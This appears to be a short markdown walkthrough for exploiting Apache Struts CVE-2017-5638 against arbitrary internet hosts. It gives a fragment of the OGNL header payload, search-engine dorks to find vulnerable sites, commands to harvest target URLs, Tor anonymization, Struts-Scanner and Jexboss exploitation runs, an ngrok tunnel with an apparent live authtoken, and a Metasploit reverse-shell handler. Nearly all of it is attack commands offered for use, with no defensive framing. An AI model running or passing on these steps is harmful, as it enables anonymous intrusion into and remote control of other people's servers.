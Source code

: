 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638
category: Sample
date: 2019-2-4
---
```


APACHE STRUTS VULNERABILITY CVE 2017-5638

Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00

FIND POTENTIAL TARGETS
intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java

Optional
# Save your dorks list into a file such as "dorks.txt"
# Specify the output path and filename such as "urls.txt"
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt

https://github.com/opsdisk/pagodo.git

INITIALIZE TOR SESSION
Start Torphantom

# Type the below commands
$ sudo torphantom start ­-i <interface>

https://github.com/3ndG4me/torphantom.git

Scan using Struts-Scanner

# Type the below commands and follow up the screen prompt
$ ./struts­-scanner
https://github.com/s1kr10s/Apache-Struts-v3.git
https://github.com/drigg3r/Struts-Apache-ExploitPack.git

Scan using Jexboss

# Type the below commands after correcting the input and output file paths
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2

INITIALIZE TCP TUNNELING
Start Ngrok

# Your Token can be found in your Ngrok account
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ

Create the Session

# Create the Ngrok session on the port 4444 using the below command
$ ./ngrok tcp 4444

CREATE MSF HANDLER
Start Metasploit

# Open Metasploit
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options

EXPLOIT THE TARGET
Jexboss Commands

$ sudo python jexboss.py -u http://example.com/login.action

https://youtu.be/Bt9m__yel8M
